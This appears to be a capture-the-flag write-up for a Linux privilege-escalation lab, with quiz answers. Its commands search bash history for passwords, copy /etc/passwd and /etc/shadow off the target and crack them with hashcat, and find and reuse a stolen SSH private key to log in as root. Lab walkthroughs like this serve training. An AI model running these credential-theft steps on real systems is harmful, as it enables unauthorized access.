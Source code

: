 ```bash
cat ~/.bash_history | grep -i passw
# mysql -h somehost.local -uroot -ppassword123
```

#### What was TCM trying to log into?

{% hint style="success" %}
`mysql`
{% endhint %}

#### Who was TCM trying to log in as?

{% hint style="success" %}
root
{% endhint %}

#### Naughty naughty. What was the password discovered?

{% hint style="success" %}
`password123`
{% endhint %}

## Task 6 Weak File Permissions

```bash
ls -l /etc/shadow
# -rw-rw-r-- 1 root shadow 809 Jun 17  2020 /etc/shadow
```

```bash
scp TCM@10.10.24.41:/etc/{passwd,shadow} .
unshadow passwd shadow > unshadow.txt
hashcat -a 0 -m 1800 unshadow.txt /usr/share/wordlists/rockyou.txt
# root:password123
```

#### What were the file permissions on the /etc/shadow file?

{% hint style="success" %}
`-rw-rw-r--`
{% endhint %}

## Task 7 SSH Keys

```bash
find / -type f -name authorized_keys 2>/dev/null
find / -type f -name id_rsa  2>/dev/null
# /backups/supersecretkeys/id_rsa
```

```bash
scp TCM@10.10.24.41:/backups/supersecretkeys/id_rsa . 
chmod 400 id_rsa
ssh -i id_rsa root@10.10.24.41
```
